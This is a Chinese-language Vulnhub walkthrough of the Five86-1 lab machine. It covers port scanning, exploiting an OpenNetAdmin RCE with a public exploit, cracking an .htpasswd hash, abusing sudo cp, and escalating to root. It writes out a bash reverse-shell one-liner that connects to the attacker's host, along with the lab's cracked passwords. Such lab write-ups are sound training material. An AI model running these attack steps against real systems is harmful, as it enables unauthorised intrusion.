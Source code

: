```yaml
---
title: 'Five86-1 : Walkthrough'
date: 2020-05-06T13:38:37+08:00
author: 2hanx
layout: post
categories:
  - Vulnhub
---
```

### 主机识别

`nmap -sn 192.168.1.1/24`

### 网络拓扑

| 计算机       | IP              |
| --------- | --------------- |
| 本机（Win10） | `192.168.1.108` |
| Kali      | `192.168.1.105` |
| Five86-1  | `192.168.1.107` |

### 扫描端口和版本信息

`nmap -A 192.168.1.107`

![1.png](https://i.loli.net/2020/05/06/MPSpUKiVcZd8FCr.png) 

### 访问Web并确定web应用

根据 Nmap 扫描结果可知，根目录存在 **robots.txt** ，访问 _/ona_ 子目录

![2.png](https://i.loli.net/2020/05/06/SQa2nTwGxlZoCWN.png) 

![3.png](https://i.loli.net/2020/05/06/QBo7FUDLYAOxkWz.png) 

找到 Web 应用是 **OpenNetAdmin v18.1.1**，进行 OSINT

![4.png](https://i.loli.net/2020/05/06/n6vK1EkV2XpYzRj.png) 

看来该 Web 应用存在 **RCE** ，这下 _getshell_ 就变得简单了。我使用 GitHub 的 [exploit](https://github.com/amriunix/ona-rce)

![5.png](https://i.loli.net/2020/05/06/UD6sTCk83g47pc2.png) 

### 提权

与虚拟机建立 bash 连接，以便执行更多程序，执行命令 `bash -c 'bash -i >& /dev/tcp/192.168.1.105/4466 0>&1'`

Kali 监听 **4466** 端口

![6.png](https://i.loli.net/2020/05/06/VhkMSWpiKGXfZHC.png) 

并在 Kali 上下载 _LinEnum.sh_ 脚本到 `/tmp` 目录下运行

![7.png](https://i.loli.net/2020/05/06/GeFaBE2ZnKV6tYk.png) 

![8.png](https://i.loli.net/2020/05/06/sMIcemAZzu57a3U.png) 

对于 `/etc/passwd` 我们没有写权限，因此之前惯用的方法失效了，不过根据 `/var/www/.htpasswd` 提供的信息可以暴力破解 hash 密码。不过在此之前就是制作字典

![9.png](https://i.loli.net/2020/05/06/eijLvVIkgG7d3nu.png) 

将用户名和密码复制粘贴到 _hash.txt_ 文件中，使用 `john` 命令工具进行字典爆破

`douglas:<span class="katex math inline">apr1</span>9fgG/hiM$BtsL9qpNHUlylaLxk81qY1`

![10.png](https://i.loli.net/2020/05/06/YRTcnxWrCp5PdDv.png) 

至此我们得到用户名 _douglas_ 的账户密码：`fatherrrrr`

![11.png](https://i.loli.net/2020/05/06/hJOUZq2tceTH97n.png) 

经过许久的探索，终于找到一条重要信息：_douglas_ 用户可以无需密码运行 _jen_ 账户的 `/bin/cp` 命令。接下来我尝试复制信息到 `/etc/passwd` 文件失败。嗯~，在这卡了一段时间，后来通过网上找到一种方法：找 _jen_ 用户所属的文件

`find / -type f -user jen 2>/dev/null`

我们看到 _jen_ 用户有一条 mail 信息（ `/var/mail/jen` ），使用 `/bin/cp` 命令将邮件信息复制出来

> 直接将 `/var/mail/jen` 复制出来不能读，可以通过在 `/tmp` 中新建文本文件，并修改权限后将复制的出来的内容替换进去 

![13.png](https://i.loli.net/2020/05/06/K9HUp3tqwScyAgj.png) 

得到 _moss_ 用户的密码：`Fire!Fire!`

![14.png](https://i.loli.net/2020/05/06/6fPZsOl2eSyi9nm.png) 

在用户目录下，存在一个游戏目录，我们运行它就可以得到 _root_ 权限了

![15.png](https://i.loli.net/2020/05/06/AasDT8Nj5bYJv7o.png) 

### 总结

在进入 **OpenNetAdmin** 面板后没有第一时间去找 Web 应用程序和版本，而是到处点点，查看功能等选项。甚至切换为 _admin_ 用户（我也不知为啥一试 _admin:admin_ 就登录了 ）。因此需要将确定运行的应用程序放在首位，根据应用程序和版本上网查询是否存在漏洞，其次才是详细查看程序功能点等，这样会节省一些时间